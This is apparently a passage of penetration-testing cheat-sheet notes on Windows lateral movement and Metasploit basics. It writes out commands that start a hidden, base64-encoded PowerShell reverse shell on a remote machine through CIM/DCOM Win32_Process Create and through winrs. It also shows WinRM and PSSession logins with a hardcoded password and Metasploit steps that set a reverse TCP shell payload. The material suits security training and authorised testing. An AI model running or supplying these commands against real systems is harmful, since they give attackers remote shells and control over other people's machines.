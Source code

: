 ```
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.target.ip -Credential $credential -SessionOption $Options

$Command = 'powershell -nop -w hidden -e BASE64_OUTPUT_FROM_EARLIER_SCRIPT_JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

Reverse Shell - WinRM
Generate base64 encoded reverse shell with python above, launch a NetCat lsitener, and then in PowerShell run;
```
winrs -r:files04 -u:targetuser -p:Password123!  "powershell -nop -w hidden -e BASE64_OUTPUT_FROM_EARLIER_SCRIPT_JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

It's also possible to invoke New-PSSession in PowerShell 
```
$username = 'targetuser';
$password = 'Password123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.target.ip -Credential $credential
```
And enter the newly created session with: `Enter-PSSession 1`

# Metasploit Framework
- Setup a msf database: `sudo msfdb init`
	- To start on bootup: `sudo systemctl enable postgresql`
- Launch Metasploit: `sudo msfconsole` (add `-q` to launch without banner)
- Check database connectivity: `db_status`
- All available commands: `help`
- Workspaces
	- Check workspaces; `workspace`
	- Create workspace: `workspace -a workspacename`
- Run nmap inside metasploit: `db_nmap` (eg. `db_nmap -A 192.168.154.10 -v`)
- List discovered hosts: `hosts`
- List discovered services: `services` (add `-p 8000` to list services on port 8000)
- Show auxiliary modules: `show auxiliary`
- Search for SMB auxiliary modules: `search type:auxiliary smb`
	- To use a module (eg. #56) found in a search: `use 56`
	- To get info on a module you've selected to use: `info`
	- To see options for a module: `show options`
	- To set options (eg. "RHOSTS" to 192.168.50.145): `set RHOSTS 192.168.50.147` 
		- And unset with: `unset RHOSTS`
	- Set "rhosts" to all discovered hosts with open port 445: `services -p 445 --rhosts`
	- To execute a module: `run`
	- To execute a module in the background: `run -j` (use `jobs` to list running jobs)
- To display vulnerabilities found by the module: `vulns`
## Exploit Modules
To lookup exploit info;
- Select the module with `use` and the module number (eg. `use 10`)
- Then type `info`
To set a payload: `set payload payloadnameornumber` 
	eg. `set payload payload/linux/x64/shell_reverse_tcp`